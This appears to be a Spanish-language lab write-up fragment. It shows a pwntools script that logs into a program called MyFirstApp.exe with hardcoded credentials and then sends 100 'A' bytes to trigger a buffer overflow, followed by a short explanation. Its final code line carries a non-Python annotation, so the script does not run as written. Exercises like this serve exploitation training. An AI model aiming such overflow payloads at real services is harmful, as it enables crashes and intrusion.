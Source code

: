 
```python

#!/usr/bin/python3

from pwn import *
import sys, signal, time


def def_handler(sig,frame):
    print("\n Saliendo..........[!]\n")
    sys.exit(1)

#Ctrl C
signal.signal(signal.SIGINT, def_handler)

if len (sys.argv) !=3:
    print("\n Error valores incompletos \n")
    print("\n Uso: python3 %s <IP> <port> \n " % sys.argv[0])
    sys.exit(1)

ip = sys.argv[1]
port = sys.argv[2]

print("Iniciando conexion [!]")
try:
    r = remote(ip, port)
    conexion_exitosa = True
except ConnectionRefusedError:
    print("ConexiÃ³n rechazada. Verifica que el servicio estÃ© corriendo.")
    sys.exit(1)
except TimeoutError:
    print("Tiempo de conexiÃ³n agotado.")
    sys.exit(1)
except Exception as e:
    print(f"Error inesperado: {e}")
    sys.exit(1)

payload = b"A"*100 # ---> junk 

if conexion_exitosa:
    r.recvuntil(b"Username:")
    r.sendline(b"alfiansyah")
    r.recvuntil(b"Password:")
    r.sendline(b"K3r4j@@nM4j@pAh!T")
    r.recvuntil(b"FullName:")
    r.sendline(b"Vickry Alfiansyah")
    r.recvuntil(b"Input Your Code:")
    r.sendline(payload)   --> Payload 
```

Es simple por el momento, te pide la Ip y el puerto donde se esta ejecutando el programa de MyFirstApp.exe (que se esta ejecutando en tu maquina Windows ) y dentro del payload en formato de byte manda las "A" para acontecer el BoF(buffer OverFlow) 
